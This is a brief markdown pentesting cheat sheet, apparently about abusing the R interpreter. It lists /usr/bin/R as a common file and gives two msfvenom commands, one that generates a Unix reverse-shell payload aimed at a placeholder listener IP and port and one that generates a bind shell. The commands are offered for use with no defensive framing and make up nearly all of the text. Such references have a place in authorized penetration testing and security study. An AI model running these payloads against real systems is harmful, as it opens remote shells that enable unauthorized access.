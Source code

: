 # Manual

## 01 - Common Files

```
/usr/bin/R
```

## 02 - Generate Payloads

### 2.1 - Reverse Shells

```
$ msfvenom -p cmd/unix/reverse_r lhost=<IP> lport=<PORT>
```

### 2.2 - Bind Shells

```
$ msfvenom -p cmd/unix/bind_r lport=<PORT>
```